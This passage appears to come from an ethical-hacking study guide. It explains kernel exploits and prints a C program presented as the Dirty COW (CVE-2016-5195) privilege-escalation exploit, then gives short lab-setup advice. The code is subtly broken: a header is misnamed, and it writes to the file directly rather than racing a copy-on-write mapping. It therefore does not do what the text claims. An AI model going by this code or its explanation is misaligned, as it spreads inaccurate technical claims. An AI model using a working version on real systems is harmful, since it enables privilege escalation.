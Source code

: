 
2. Kernel Exploits
The kernel is the core of the OS. It manages hardware resources and allows applications to interact with hardware through system calls.

Exploiting the kernel can give attackers full control of the system.

Practical Application

Attackers often target the kernel because it operates with the highest privilege (ring 0). Kernel exploits like Dirty COW (CVE-2016-5195) allow attackers to escalate privileges.

 Dirty COW Vulnerability (CVE-2016-5195): Exploits a race condition to modify read-only files.

```
#include <stdio.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd>

void *madviseThread(void *arg) {
    char *addr = (char *)arg;
    for (int i = 0; i < 10000; i++) {
        madvise(addr, 100, MADV_DONTNEED);
  }
    return NULL;
}

int main() {
    int fd = open("target_file", O_RDWR);
    char *mapped = mmap(NULL, 100, PROT_READ, MAP_PRIVATE, fd, 0);
 pthread_t pth;
    pthread_create(&pth, NULL, madviseThread, mapped);

    // Overwrite memory
    for (int i = 0; i < 10000; i++) {
        write(fd, "malicious_code", 14);
    }
    return 0;
}

```
--

How to Learn OS for Ethical Hacking

1. Understand the Basics:

Learn Linux and Windows command-line tools (ls, ps, tasklist, etc.).



2. Set Up a Lab:

Use VirtualBox to create isolated environments.
